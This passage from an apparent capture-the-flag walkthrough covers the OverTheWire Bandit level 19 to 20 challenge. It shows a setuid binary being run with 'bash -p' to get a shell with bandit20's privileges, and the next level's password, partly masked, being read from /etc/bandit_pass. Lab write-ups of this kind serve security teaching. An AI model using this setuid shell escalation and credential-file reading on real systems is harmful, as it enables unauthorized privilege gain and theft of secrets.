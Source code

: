 <br>

:closed_lock_with_key: Connect with ``bandit19`` user and password found.

```bash
ssh bandit19@bandit.labs.overthewire.org -p 2220
```

Username : ``bandit19``

Password  : ``awhqfNnAb---------F95h7HoMTrC``

<br>

## :star2: :star2: Level 20

> To gain access to the next level, you should use the setuid binary in the homedirectory. Execute it without arguments to find out how to use it. The password for this level can be found in the usual place (/etc/bandit_pass), after you have used the setuid binary.

<br>

There is a setuid file which is interesting.
Execute the file to see what is happening : 
```bash
bandit19@bandit:~$ ./bandit20-do 
Run a command as another user.
  Example: ./bandit20-do id
bandit19@bandit:~$
```

It seems that we can execute command. Because it is a setuid file, the command will be executed as ``bandit20``. So, we can pop a shell : 
```bash
bandit19@bandit:~$ ./bandit20-do bash -p
bash-5.1$ id
uid=11019(bandit19) gid=11019(bandit19) euid=11020(bandit20) groups=11019(bandit19)
bash-5.1$
```

:warning: *Don't forget to use ``-p`` for privileged mode !*

Now, go on ``/etc/bandit_pass`` directory and get the password : 
```bash
bash-5.1$ cd /etc/bandit_pass
bash-5.1$ ls
bandit0   bandit13  bandit18  bandit22	bandit27  bandit31  bandit6
bandit1   bandit14  bandit19  bandit23	bandit28  bandit32  bandit7
bandit10  bandit15  bandit2   bandit24	bandit29  bandit33  bandit8
bandit11  bandit16  bandit20  bandit25	bandit3   bandit4   bandit9
bandit12  bandit17  bandit21  bandit26	bandit30  bandit5
bash-5.1$ cat bandit20 
VxCazJaVy---------U0mJTCM8rR95XT
bash-5.1$
```

<br>
